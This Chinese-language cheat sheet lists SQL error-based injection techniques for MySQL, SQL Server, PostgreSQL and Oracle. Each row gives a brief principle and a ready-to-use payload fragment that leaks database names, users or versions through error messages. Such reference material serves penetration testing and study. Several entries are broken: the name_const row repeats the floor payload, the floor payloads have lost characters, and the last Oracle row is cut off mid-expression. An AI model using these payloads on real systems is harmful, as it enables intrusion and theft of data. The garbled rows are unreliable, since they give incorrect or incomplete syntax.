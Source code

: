 ### SQL 报错注入函数有哪些

**MySQL**

| 函数/方法      | 利用原理                                                     | 举例                                                         |
| -------------- | ------------------------------------------------------------ | ------------------------------------------------------------ |
| updatexml()    | 修改 XML 文档，不合法的 XPath 路径会报错并显示内容           | ... AND updatexml(1,concat(0x7e, (SELECT database()), 0x7e),1) |
| extractvalue() | 从 XML 字符串提取值，不合法的 XPath 路径会报错并显示内容     | ... AND extractvalue(1, concat(0x7e, (SELECT user())))       |
| floor()        | 结合 GROUP BY 和 rand()，制造重复键错误，将数据作为键值显示  | ... AND (SELECT 1 FROM (SELECT count(), concat(database(),floor(rand(0)2))x FROM information_schema.tables GROUP BY x)a) |
| name_const()   | 用于创建一个带名称的匿名列。当在子查询中，我们使用 `NAME_CONST()` 将查询结果作为列名，并且这个列名在子查询中已经存在时，就会引发一个“重复列名”的错误，并将查询结果显示出来 | AND (SELECT 1 FROM (SELECT count(), concat(database(),floor(rand(0)2))x FROM information_schema.tables GROUP BY x)a) |
| exp()          | 我们可以通过 `~` 按位取反操作，将一个大的负数转换成一个巨大的正数，从而触发溢出 | AND (exp(~(SELECT * FROM (SELECT database())x)))             |

**SQL Server**

| 函数/方法          | 利用原理                                                     | 举例                                      |
| ------------------ | ------------------------------------------------------------ | ----------------------------------------- |
| convert() / cast() | 强制类型转换，将非数字字符串转换为整型会报错并显示字符串内容 | ... AND 1=convert(int,(SELECT db_name())) |

**PostgreSQL**

| 函数/方法 | 利用原理                                           | 举例                                      |
| --------- | -------------------------------------------------- | ----------------------------------------- |
| cast()    | 强制类型转换，将字符串转换为不兼容的数据类型时报错 | ... AND 1=CAST((SELECT version()) as int) |

**Oracle**

| 函数/方法                      | 利用原理                                                     | 举例                                                         |
| ------------------------------ | ------------------------------------------------------------ | ------------------------------------------------------------ |
| utl_inaddr.get_host_address()  | utl_inaddr.get_host_address() 会将不合法的IP地址或域名作为错误信息的一部分 | ... AND 1=(SELECT utl_inaddr.get_host_address((SELECT user FROM dual))) |
| ctxsys.drithsx.sn()            | 在执行 ctxsys.drithsx.sn() 函数时，不合法的参数会引发错误并显示内容 | ... AND 1=ctxsys.drithsx.sn(1,(SELECT banner FROM v$version WHERE banner LIKE 'Oracle%')) |
| dbms_utility.sqlcode_to_char() | 这个函数用于将错误代码转换为字符。它本身不是用来报错的，但可以和其他会报错的函数结合使用 | AND 1=TO_NUMBER((SELECT 'a'                                  |